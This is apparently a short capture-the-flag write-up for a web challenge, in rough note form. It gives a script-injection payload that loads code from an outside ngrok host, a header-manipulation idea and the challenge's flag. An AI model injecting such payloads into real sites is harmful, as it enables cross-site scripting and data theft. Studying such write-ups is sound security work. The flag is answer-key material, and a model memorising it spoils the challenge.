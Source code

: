 1. Following code will send a requests back to us.

`"><script src="http://7eee0c275441.ngrok.io"></script>`

2. Play with `Content-Type` or `Content-Disposition` to trick the server to download the file?

3. The flag is just at `/flag`. WTF?????????????

FLAG: `zh3r0{{Ea5y_bx55_ri8}}`
